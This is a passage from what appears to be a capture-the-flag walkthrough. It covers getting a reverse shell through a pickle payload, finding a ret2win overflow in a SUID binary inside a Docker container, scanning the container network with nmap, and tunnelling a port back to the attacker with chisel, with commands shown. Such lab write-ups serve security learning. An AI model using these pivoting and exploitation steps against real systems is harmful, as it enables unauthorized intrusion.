 (Note1: We need to use python2 as pickling is different with python3 and the payload won't work.)

(Note2: If you're using the simple `bash -i` command, it won't work)

## Docker

After getting a reverse shell, we see that we're in a docker container. There's a custom binary `/ret`, we download it and
run it through a disassembler/decompiler (popular choices are gdb,r2,ghidra,ida) and see that there's a `vuln` and `win` function.

![functions](https://i.imgur.com/brxY4Tj.png)

Now, this should be a dead giveaway that we need to perform a "ret2win" attack on this binary but we can look into the `win` function further.

![win function](https://i.imgur.com/4WemthK.png)

We also run our basic checks like `file ret`, `checksec --file ret` or `rabin2 -I ret` to see if there's any protections, the
only one is `NX` which means we can't execute shellcode off the stack but it's irrelevant here.

So, we need to find the offset and then place the value of `win` function in "rsp". We can get this through gdb, run `pattern create 200`, copy the output, `run` to run the program and paste. We see the program crash and if we do `pattern search $rsp` we get an exact offset at "136" (little endian because our binary is an lsb executable).
Now, we just need the function address which we get in gdb by using `info functions`, chain them together and we have ret2win.
We could exploit the suid bit on the `ret` binary but then we'd still be in the container, so we scan the docker network to see
if the host has anything interesting running. (note: nmap has been installed already to skip transfering over a static binary)

Running `nmap 172.17.0.0/24` we see the host `172.17.0.1` has port 4444 open, which isn't accessible from the outside. Using nc to connect to the port we see that the `ret` binary is running over this port. We could forward this port to our machine and directly use pwntools for the exploitation which makes this process a lot neater and easier.

(This step is optional as the ret binary running on 4444 can be directly exploited to get a shell on the box)

## Port forwarding

We'll be using chisel to do our port forwarding but socat can also be used.
On your attacker machine, start a chisel server with the below command:

```bash
chisel server --reverse -p 3000
```

then, transfer a static chisel binary on the machine with a python web server and forward the port with chisel

```bash
./chisel client <your_thm_ip>:3000 R:4444:172.17.0.1:4444
```
